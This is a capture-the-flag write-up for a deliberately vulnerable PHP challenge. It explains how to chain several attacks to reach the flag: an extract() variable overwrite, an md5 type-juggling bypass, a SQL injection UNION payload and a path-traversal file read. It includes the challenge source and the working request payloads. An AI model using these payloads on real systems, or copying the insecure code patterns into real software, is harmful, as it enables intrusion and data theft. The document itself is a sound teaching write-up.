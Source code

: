 # Intigriti CTF — PhorrifyingP

PHP challenge having multiple vulnerabilities.
  - PHP extract method
  - Type juggling
  - SQL injection
  - LFI 

Source code provided by the challenge

```
<?php
/*
    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>
*/
if ($_SERVER['REQUEST_METHOD'] == 'POST'){
    extract($_POST);

    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){
        $loggedin = true;
    }

    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){
        header('Location: ' . $_SERVER['REQUEST_URI']);
    }

    if (isset($loggedin) && $loggedin){
        echo 'One step closer 😎<br>';

        if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){
            echo 'Really? 😅<br>';

            $db = new SQLite3('database.db');
            $sql_where = Array('1=0');

            foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));

            if ($result == 'admin'){
                echo 'Last step 🤣<br>';

                readfile(file_get_contents('php://input'));
            }
        }
    }
}
?>

```
###### Bypassing  loggedin condition

```
if (isset($loggedin) && $loggedin)
```
Here we will exploit **extract** method. **extract($_POST);**  

If you look at php documentation for extract method there is one warning
![image](https://user-images.githubusercontent.com/19681324/158346871-12c4984e-e546-49d3-9992-e98995d7f043.png)

So we can directly pass **loggedin=true** in the post request body to bypass this condition
![image](https://user-images.githubusercontent.com/19681324/158347129-4d2b5593-191c-4f22-bac9-76635e381288.png)


###### Exploiting type juggling
```
(isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
```
First condition checks for availability of the get parameter with name action and 2nd condition checks if md5 of get parameter is equal to get parameter value itself, which is not possible in any real world. But this is check is done using loose comparison, which can be exploited.

This ![link](https://github.com/bl4de/ctf/blob/master/2017/HackDatKiwi_CTF_2017/md5games1/md5games1.md) here has exploited the same condition. A number which will satisfy this condition is 0e215962017. md5( 0e215962017 ) ---> 0e291242476940776845150308577824

PHP loose comparison will work as below
0e215962017 : will be interpreted as 0
md5( 0e215962017 ) ---> 0e291242476940776845150308577824 : will also be interpreted as 0
 
so there comparison will be true
![image](https://user-images.githubusercontent.com/19681324/158349729-391feef7-a24a-45eb-8341-2fb06c5bb808.png)

###### Exploiting SQL inection

```
  foreach ($_POST as $key => $data) {
                $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";
            }

            $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));
```

sql_were variable is created by retrieving the key and value coming in the post request. escapestring will convert the payload like **UNION+SELECT+"admin"** to **1_UNION_SELECT_** space is being converted to underscore.

However this can be bypassed. Also app uses querySingle which will return a single result, so if we can force the query to return just a single result i.e. admin we can bypass this. 

This can be done easily with the payload
```
1%3d2/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true
```
As you can see in the image we get Last step in the response

![image](https://user-images.githubusercontent.com/19681324/158352580-14f8130a-64f7-4c1f-91d3-9da8909decec.png)

###### Exploiting LFI

At the last of previous step we also saw an error
```
  readfile(1%3d2/**/UNION/**/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true): failed to open stream: No such file or directory in <b>/var/www/html/index.php
```
All of the post parameter is directly being passed into the read file function. Now we can go up the directory to read index.php file with the ../ pattern

our final payload will be, which will give us the flag
```
1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php
```
![image](https://user-images.githubusercontent.com/19681324/158353333-4570910e-aa29-46b9-ab62-dad66de1ccf6.png)




